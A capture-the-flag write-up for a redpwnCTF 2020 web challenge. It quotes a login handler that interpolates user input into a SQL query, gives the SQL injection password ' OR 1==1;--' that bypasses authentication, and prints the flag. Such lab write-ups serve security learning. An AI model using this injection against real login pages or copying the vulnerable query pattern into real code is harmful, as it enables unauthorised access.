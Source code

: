 # Login
Points: 148
## Category
web
## Problem Statement
I made a cool login page. I bet you can't get in!\
Site: login.2020.redpwnc.tf\
Attachment : "index.js"
## Solution
Close inspection of source reveals its a simple [sql injection](https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/)\
Vulnerability is this line.
```js
try {
        result = db.prepare(`SELECT * FROM users
            WHERE username = '${username}'
            AND password = '${password}';`).get();
    } catch (error) {
```
Username - `aryan`\
Password - `' OR 1==1;--'`
## Flag
```
flag{0bl1g4t0ry_5ql1}
```